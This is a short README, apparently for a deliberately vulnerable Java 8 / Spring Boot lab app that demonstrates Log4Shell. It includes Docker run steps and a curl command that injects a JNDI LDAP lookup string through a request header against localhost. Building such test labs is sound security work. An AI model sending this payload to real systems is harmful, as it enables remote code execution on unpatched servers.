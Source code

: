 # LOG4SHELL

### Vulnerable JAVA 8 + SPRING BOOT WEB API
#### Running the application

```bash
docker build . -t log4shell
docker run --name log4shell -p 8080:8080 log4shell
```

#### Exploit test the application
```bash
curl --location --request POST 'http://localhost:8080/ping' \
--header 'Log: ${jndi:ldap://localhost:9999}'
```